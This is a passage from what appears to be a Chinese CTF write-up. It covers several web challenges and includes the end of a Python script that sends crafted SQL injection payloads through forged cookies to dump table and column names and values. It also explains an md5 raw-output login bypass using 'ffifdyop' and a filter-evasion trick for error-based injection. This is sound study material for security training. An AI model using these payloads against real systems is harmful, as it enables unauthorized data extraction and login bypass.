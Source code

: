 ```python
    # print(ivnew)

    cookie1 = {'iv': ivnew, 'cipher': cnew}
    r = requests.post(url=url, cookies=cookie1)
    print(r.text)

# login('12', 4, '#', '2')
# login('0 2nion select * from ((select 1)a join (select 2)b join (select 3)c);'+ chr(0), 6, '2', 'u')
login('0 2nion select * from ((select 1)a join (select group_concat(table_name) from information_schema.tables where table_schema regexp database())b join (select 3)c);'+ chr(0), 7, '2', 'u')
# users, you_want
login('0 2nion select * from ((select 1)a join (select group_concat(column_name) from information_schema.columns where table_name regexp "you_want")b join (select 3)c);'+ chr(0), 7, '2', 'u')
# value
login('0 2nion select * from ((select 1)a join (select value from you_want)b join (select 3)c);'+ chr(0), 6, '2', 'u')
```

忘了提及的一点是，过滤了等号，可以通过 `regexp` 绕过。

这题放在 Web 第一题实在是太劝退了。

## 后台登录

F12 找到：

```php
$password=$_POST['password'];
$sql = "SELECT * FROM admin WHERE username ='admin'and password ='".md5($password,true)."'";
$result=mysqli_query($link,$sql);
    if(mysqli_num_rows($result)>0){
        echo 'flag is :'.$flag;
    }
    else{
        echo '密码错误!';
  }
```

这里比较有意思的是在 SQL 注入中引入了哈希函数。其中 `md5($password, true)` 返回一个字符串。

因此我们需要构造一个字符串，使得其 md5 值由 16 进制转为字符串后，包含 `'or'num`（`num` 为任意数字），这样就可以组成 SQL 语句：

```sql
and password = ''or'num'
```

例如，对于字符串 `ffifdyop`，其 md5 值为 `276f722736c95d99e921722cf9ed621c`，对应字符串开头为 `'or'6`，因此 SQL 语句执行结果为 `true`，成功登录。

## 加了料的报错注入

这题比较有趣的是，`username` 中过滤了 `()`，而 `password` 中过滤了很多报错注入用的函数名。因此可以考虑将两者拼接，在 `username` 中使用函数但把 `()` 移动到 `password` 里，最后注释掉中间的 SQL 语句。此外，`password` 还过滤了 `=`，用双重否定绕过即可。
